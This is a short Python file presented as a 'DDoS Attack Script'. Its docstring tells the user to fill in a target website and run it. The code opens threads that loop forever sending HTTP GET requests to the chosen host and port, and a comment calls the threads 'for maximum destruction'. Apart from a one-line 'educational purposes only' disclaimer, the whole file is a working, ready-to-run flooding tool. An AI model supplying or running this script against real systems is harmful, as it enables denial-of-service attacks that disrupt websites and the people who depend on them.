 """
DDoS Attack Script

This Python script launches a basic Distributed Denial of Service (DDoS) attack on a target website by spawning multiple threads to send HTTP GET requests to the specified target and port.

DISCLAIMER: This script is provided for educational purposes only. Launching a DDoS attack is illegal and unethical. Use this script responsibly and only with proper authorization.

Instructions:
1. Replace 'target_website.com' with the target website's domain.
2. Set the 'port' variable to the appropriate port number.
3. Run the script using Python.

Prerequisites:
- Python 3.x

Usage:
python ddos_attack.py
"""

import socket
import threading

def ddos(target, port):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(('GET /' + target + ' HTTP/1.1\r\n').encode('ascii'))
            s.send(('Host: ' + target + '\r\n\r\n').encode('ascii'))
            s.close()
        except:
            pass

if __name__ == "__main__":
    # Set your target and port
    target = 'target_website.com'
    port = 80

    # Spawn multiple threads for maximum destruction
    for _ in range(10):
        thread = threading.Thread(target=ddos, args=(target, port))
        thread.start()
